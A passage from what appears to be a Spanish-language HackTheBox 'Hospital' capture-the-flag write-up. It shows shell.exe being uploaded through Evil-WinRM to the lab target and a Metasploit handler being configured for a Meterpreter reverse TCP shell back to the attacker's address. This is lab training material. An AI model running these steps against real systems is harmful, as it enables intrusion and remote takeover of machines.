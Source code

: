 ```bash
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Desktop> upload shell.exe

Info: Uploading /home/miguel/Hackthebox/Hospital/content/shell.exe to C:\Users\drbrown.HOSPITAL\Desktop\shell.exe

Data: 9556 bytes of 9556 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Desktop>
```

- Iniciamos `Metasploit` y preparamos todo.

```bash
➜  content msfconsole
Metasploit tip: Use help <command> to learn more about any command

  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v6.4.2-dev                           ]
+ -- --=[ 2408 exploits - 1240 auxiliary - 422 post       ]
+ -- --=[ 1465 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.71
lhost => 10.10.14.71
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.71:443
```
